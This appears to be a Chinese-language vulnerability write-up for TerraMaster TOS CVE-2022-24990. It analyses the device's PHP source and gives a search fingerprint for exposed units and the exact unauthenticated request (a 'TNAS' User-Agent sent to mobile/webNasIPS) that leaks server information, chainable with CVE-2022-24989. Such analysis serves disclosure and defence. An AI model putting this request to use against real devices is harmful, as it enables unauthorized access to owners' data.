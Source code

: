 # TerraMaster TOS 信息泄漏漏洞 CVE-2022-24990

## 漏洞描述

TerraMaster TOS 存在信息泄漏漏洞，攻击者通过漏洞可以获取服务器上的敏感信息，配合 CVE-2022-24989漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.31 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1647617923369-02e2a7e7-7705-4e12-a021-49ca44300125.png)

根据POC我们看到 api.php 文件

![img](/assets/PeiQi-Wiki/img/1647660069962-c0778e37-f3a7-42fd-ba87-ddedec117e1f.png)

```json
# 例如下列的Url调用那么$class将是 class，并且$function 是 func。
/module/api.php?class/func
```

我们注意看这几个位置，这里首先定义了一个方法数组, 然后再通过判断调用的方法是否存在这个数组里来定义 REQUEST_MODE参数的值

```php
$GLOBALS['NO_LOGIN_CHECK'] = array("webNasIPS", "getDiskList", "createRaid", "getInstallStat", "getIsConfigAdmin", "setAdminConfig", "isConnected");

if (!in_array($function, $GLOBALS['NO_LOGIN_CHECK'])) {
    define('REQUEST_MODE', 1);
    //加载原始session
    if (isset($in['PHPSESSID']) && !empty($in['PHPSESSID'])) {
        session_id($in['PHPSESSID']);
        $GLOBALS['sessionid'] = $in['PHPSESSID'];
    }
    @session_start();
    @session_write_close();
    //初始化阵列
    $raid = new raid();
    $base_md = $raid->_main_disk();
    if (!empty($base_md)) {
        define('DATA_BASE', "$base_md/");
    } else {
        define('DATA_BASE', null);
    }
    define('USER_PATH', DATA_BASE . "User/"); //用户目录
    define('PUBLIC_PATH', DATA_BASE . "public/"); //公共目录
    define('DATA_THUMB', DATA_BASE . '@system/thumb/');//缩略图生成存放
} else {
    define('REQUEST_MODE', 0);
}
```

![img](/assets/PeiQi-Wiki/img/1647660289906-a2062c4c-c0b6-49ba-855c-3f1f62b3d345.png)

走完判断代码后就会实例化 所声明的类$class并调用所声明的方法$function。

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

我们再来到漏洞出现的文件 `include/class/mobile.class.php`

![img](/assets/PeiQi-Wiki/img/1647660600954-6bed3197-1326-4529-ae01-27210c2056c5.png)

构造函数中有几个关键的判断

```php
function __construct()
    {
        parent::__construct();
        $this->start = $this->mtime();

        if ($_SERVER['HTTP_USER_DEVICE'] == "TNAS"){
            $_SERVER['HTTP_USER_AGENT'] = "TNAS";
        }
        if (!in_array(Action, self::$notHeader)) {
            if (!strstr($_SERVER['HTTP_USER_AGENT'], "TNAS") || !isset($_SERVER['HTTP_AUTHORIZATION'])) {
                if($this->REQUESTCODE != $_SERVER['HTTP_AUTHORIZATION'] && hash("sha256", $this->REQUESTCODE) != $_SERVER['HTTP_AUTHORIZATION']) {
                    $this->output("Illegal request, please use genuine software!", false);
                }
            }
        }
        if (REQUEST_MODE) {
            if (DATA_BASE == null) {
                $this->output("main raid not exists", false);
            }
            //避免session不可写导致循环跳转
            if (!isset($_SESSION)) {
                $this->output("session write error!", false);
            } else {
                $this->user = &$_SESSION['kod_user'];
            }
            if (isset($this->in['PHPSESSID'])) {
                $this->sessionid = $this->in['PHPSESSID'];
            }
            #管理员接口
            if (in_array(Action, $this->noPermission)) {
                if ($this->user['role'] != "root") {
                    $this->output("User [{$this->user['name']}] does not have permission!", false);
                }
            }
        }
        if (!in_array(Action, self::$notCheck)) {
            if (!$this->loginCheck()) {
                $this->output("login is timeout", 0);
            }
        }
        //初始化
        if (self::$U == null) self::$U = new person();
        if (self::$U->deamon()) {
            $this->output("user hasn't permission!", true, 0);
        }
    }
```

第一个判断了调用的方法名称是否在$notHeader数组中，它会测试用户代理 http 标头是否为 'TNAS' 并且 AUTHORIZATION 标头是否等于$this->REQUESTCODE。否则它会退出并显示错误消息

![img](/assets/PeiQi-Wiki/img/1647661847498-e8fa39ee-6f76-4140-80f0-ebaaea125268.png)

第二个判断了调用的方法是否存在于不需要登录的方法

```php
if (!in_array(Action, self::$notCheck)) {
            if (!$this->loginCheck()) {
                $this->output("login is timeout", 0);
            }
        }
```

接着看下 webNasIPS 调用的定义

![img](/assets/PeiQi-Wiki/img/1647662028404-2930884b-c438-47d1-91e7-db49d4bd4907.png)

![img](/assets/PeiQi-Wiki/img/1647662045581-6ec76778-6fad-4f8f-b483-aaff048c6bf4.png)

可以发现这个方法均存在于这些判断数组中，我们跟踪到这个方法

![img](/assets/PeiQi-Wiki/img/1647662176037-411fb086-8d0f-4aee-a36b-88f15d7dd19b.png)

可以发现这个方法的调用只需要添加 `User-Agent: TNAS,` 我们就可以调用这个方法来获取服务器中敏感信息

```json
/module/api.php?mobile/webNasIPS
```

![img](/assets/PeiQi-Wiki/img/1647618177406-a3bc3132-2c55-425b-a27f-45e0fd1aac3d.png)
